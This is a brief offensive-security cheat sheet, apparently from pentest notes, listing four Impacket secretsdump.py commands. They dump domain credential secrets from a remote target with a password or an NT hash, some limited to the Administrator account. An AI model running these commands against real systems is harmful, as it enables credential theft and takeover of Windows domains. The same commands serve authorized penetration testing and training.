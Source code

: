 # secretsdump
#plateform/linux #target/remote #cat/ATTACK

## Dump all secrets with password
```
secretsdump.py <domain>/<user>:'<passwd>'@<ip>
```

## Dump Administrator with password
```
secretsdump.py <domain>/<user>:'<passwd>'@<ip> -just-dc-user Administrator
```

## Dump all secrets with hash
```
secretsdump.py <domain>/<user>@<ip> -hashes :<nthash>
```

## Dump Administrator with hash
```
secretsdump.py <domain>/<user>@<ip> -hashes :<nthash> -just-dc-user Administrator
```
